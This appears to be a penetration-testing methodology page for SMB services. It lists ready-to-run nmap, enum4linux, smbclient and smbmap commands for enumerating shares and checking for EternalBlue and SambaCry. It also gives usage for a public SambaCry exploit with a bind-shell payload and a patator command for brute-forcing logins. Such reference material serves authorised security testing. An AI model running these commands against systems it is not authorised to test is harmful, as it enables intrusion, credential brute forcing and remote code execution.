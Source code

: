 # SMB - Methodology

### Network scan

Nmap and nbtscan can be used to scan the network for SMB services:

```
nmap -v -p 139,445 -oA nmap_smb <RANGE/CIDR>
nbtscan -r <RANGE>
```

### Basic recon

The Nmap *smb-os-discovery.nse* script attempts to determine the operating
system, computer name, domain, workgroup, and current time over the SMB
protocol.

```
nmap --script smb-os-discovery.nse -p 445 <IP>
nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 <IP>
```

### Null session

A null session refers to an unauthenticated NetBIOS session.  
A null session allows unauthenticated access to the shared files as well as a
large amounts of information about the machine, such as password policies,
usernames, group names, machine names, user and host SIDs.  
This Microsoft feature existed in SMB1 by default and was later restricted in
subsequent versions of SMB.  

To detect and retrieve information about the machine through a null session,
the enum4linux Perl script can be used:

```
enum4linux <TARGET>
```

Combine network scan and null session enumeration:

```
nbtscan -s ' ' <RANGE> | cut -d ' ' -f 1 | while read -r line ; do
  enum4linux $line > enum4linux_$line.txt
done
```

### List accessible shares

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
nmap --script smb-enum-shares.nse -p 445 <HOST>
nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 <HOST>

smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -L (-H HOST | --host-file FILE)  

smbclient -U "" -N -L <HOST>
smbclient -U <USER> -L <HOST>
```

### List and search files

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
nmap -v -sT -p 445 --script smb-enum-shares,smb-ls <HOST>
sudo nmap -v -sU -sS -p U:137,T:139 --script smb-enum-shares,smb-ls  <HOST>

smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -F <PATTERN> (-H HOST | --host-file FILE)  

smbclient -U <USER> \\\\<HOST>\\<SHARE>
```

Smbmap can be used to download, upload or delete a file:

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] --download/--upload/--delete <PATH> (-H HOST | --host-file FILE)  
```

The share may also be mounted using the Linux mount utility tool:

```
mount -t cifs -o username=<USER> //<HOST>//<SHARE> /mnt/<FOLDER>
mount -t cifs -o username=<USER>,password=<PASSWORD> //<HOST>//<SHARE> /mnt/<FOLDER>
```

### Check for known vulnerabilities

Nmap command can be used to check for the following exploits:

```
smb-vuln-ms08-067
smb-vuln-ms10-054
smb-vuln-ms10-061
smb-vuln-ms17-010 / cve-2017-7494
smb-vuln-regsvc-dos

nmap -v -p 139,445 --script=vuln <TARGET>
```

### EternalBlue & SambaCry

The Nmap *smb-vuln-ms17-010.nse* and *smb-vuln-cve-2017-7494* scripts attempt
to detect if a SMBv1 server is vulnerable to the remote code execution
vulnerability MS17-010, a.k.a. EternalBlue (vulnerability exploited by WannaCry
and Petya ransomware) or CVE-2017-7494 aka SambaCry.

```
# EternalBlue
nmap --script smb-vuln-ms17-010.nse -p 445 <IP>

# SambaCry
nmap --script smb-vuln-cve-2017-7494 -p 445 <IP>
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 <IP>
```

If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.  
The following versions are vulnerable:

```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

The following exploit may be used to achieve RCE through the SambaCry
vulnerability:

```
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <TARGET> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```

### Authentication brute force

The patator tool can be used to brute force credentials on the service:

```
patator smb_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='NT_STATUS_LOGON_FAILURE'
```
